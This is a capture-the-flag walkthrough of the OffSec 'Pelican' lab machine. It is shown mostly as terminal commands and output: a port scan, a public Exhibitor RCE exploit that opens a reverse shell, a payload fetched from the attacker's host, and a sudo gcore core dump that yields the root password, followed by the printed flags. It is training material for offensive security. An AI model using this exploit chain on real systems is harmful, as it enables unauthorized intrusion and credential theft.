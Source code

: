 No credentials were provided for this machine

nmap -vvv -T5 -Pn 192.168.164.98 -p- -A -oN nmap.txt

sudo echo "192.168.164.98 pelican.offsec" | sudo tee -a /etc/hosts

http://192.168.164.98:8080/exhibitor/v1/ui/index.html

Exhibitor for ZooKeeper

https://www.exploit-db.com/exploits/48654

https://github.com/thehunt1s0n/Exihibitor-RCE

┌──(lepotekil㉿kali)-[~/proving-ground-prac/pelican/Exihibitor-RCE]
└─$ ./exploit.sh 192.168.164.98 8080 192.168.45.170 5555


------------------------------------------------------------------------------
 _____      _     _ _     _ _              __        __   _       _   _ ___
| ____|_  _| |__ (_) |__ (_) |_ ___  _ __  \ \      / /__| |__   | | | |_ _|
|  _| \ \/ / '_ \| | '_ \| | __/ _ \| '__|  \ \ /\ / / _ \ '_ \  | | | || |
| |___ >  <| | | | | |_) | | || (_) | |      \ V  V /  __/ |_) | | |_| || |
|_____/_/\_\_| |_|_|_.__/|_|\__\___/|_|       \_/\_/ \___|_.__/   \___/|___|

 _  _____ _           ____   ____ _____
/ ||___  / |         |  _ \ / ___| ____|
| |   / /| |  _____  | |_) | |   |  _|
| |_ / /_| | |_____| |  _ <| |___| |___
|_(_)_/(_)_|         |_| \_\____|_____|

------------------------------------------------------------------------------

Original exploit : https://www.exploit-db.com/exploits/48654

----------------This bash script is edited by @thehunt1s0n--------------------

Curl command executed successfully, check your listener.

┌──(lepotekil㉿kali)-[~/proving-ground-prac/pelican/Exihibitor-RCE]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [192.168.45.170] from (UNKNOWN) [192.168.164.98] 51750
id
uid=1000(charles) gid=1000(charles) groups=1000(charles)
python -c 'import pty; pty.spawn("/bin/bash")'
charles@pelican:/opt/zookeeper$ export SHELL=bash
export SHELL=bash
charles@pelican:/opt/zookeeper$ export TERM=xterm
export TERM=xterm
charles@pelican:/opt/zookeeper$ stty rows 38 columns 116
stty rows 38 columns 116

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm && stty rows 38 columns 116

charles@pelican:/opt/zookeeper$
charles@pelican:/opt/zookeeper$ cd
cd
charles@pelican:~$ ls
ls
local.txt
charles@pelican:~$ cat local.txt
cat local.txt
80bc8b92f18593b8b9965ec20097efce
charles@pelican:~$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

charles@pelican:~$ wget http://192.168.45.170:8000/linpeas.sh
wget http://192.168.45.170:8000/linpeas.sh
--2025-10-19 12:18:44--  http://192.168.45.170:8000/linpeas.sh
Connecting to 192.168.45.170:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 971820 (949K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                   100%[==============================================>] 949.04K  3.83MB/s    in 0.2s    

2025-10-19 12:18:44 (3.83 MB/s) - ‘linpeas.sh’ saved [971820/971820]

charles@pelican:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
charles@pelican:~$ ./linpeas.sh
./linpeas.sh

charles@pelican:~$ sudo gcore 490                                  
sudo gcore 490
0x00007fec7ea386f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffd84db2450, remaining=remaining@entry=0x7ffd84db2450) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.490
[Inferior 1 (process 490) detached]

strings core.490

001 Password: root:
ClogKingpinInning731

charles@pelican:~$ su
su
Password: ClogKingpinInning731

root@pelican:/home/charles# cd
cd
root@pelican:~# ls
ls
Desktop  Documents  Downloads  Music  Pictures  proof.txt  Public  Templates  Videos
root@pelican:~# cat proof.txt
cat proof.txt
b1a3504b8da914e7e54badb0c522b57d